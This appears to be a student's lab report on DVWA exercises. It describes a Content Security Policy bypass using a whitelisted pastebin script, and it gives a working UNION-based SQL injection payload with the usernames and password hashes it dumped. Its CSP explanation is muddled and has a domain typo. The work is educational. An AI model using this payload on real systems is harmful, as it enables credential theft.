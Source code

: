 **a.4 Content Security Policy Bypass**

- Include a screenshot of the popup window over DVWA in your report.

  <img src="/Users/Ron/Desktop/Screen Shot 2019-09-16 at 7.32.16 PM.png" alt="Screen Shot 2019-09-16 at 7.32.16 PM" style="zoom:50%;" />

- Describe how you exploited this vulnerability in your report. Include any source files in your lab submission archive.

  - I found a website called `pastern.com` which is on the whitelist and the firefox trusts it. As a result, when the malicious script `https://pastebin.com/raw/pEMfPi6k` is excuted, due to the lack to CSP protection, the DVWA executed the `alert()` command and caused the pop up to pass through.

**a.5 SQL Injection**

- Include a table of the usernames and passwords in your report.

  ```  
  ID: %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
  First name:
  Surname: admin
  admin
  admin
  5f4dcc3b5aa765d61d8327deb882cf99
  
  ID: %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
  First name:
  Surname: Gordon
  Brown
  gordonb
  e99a18c428cb38d5f260853678922e03
  
  ID: %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
  First name:
  Surname: Hack
  Me
  1338
  8d3533d75ae2c3966d7e0d4fcc69216b
  
  ID: %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
  First name:
  Surname: Pablo
  Picasso
  pablo
  0d107d09f5bbe40cade3de5c71e9e9b7
  
  ID: %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
  First name:
  Surname: Bob
  Smith
  smithy
  5f4dcc3b5aa765d61d8327deb882cf99
  
  ```
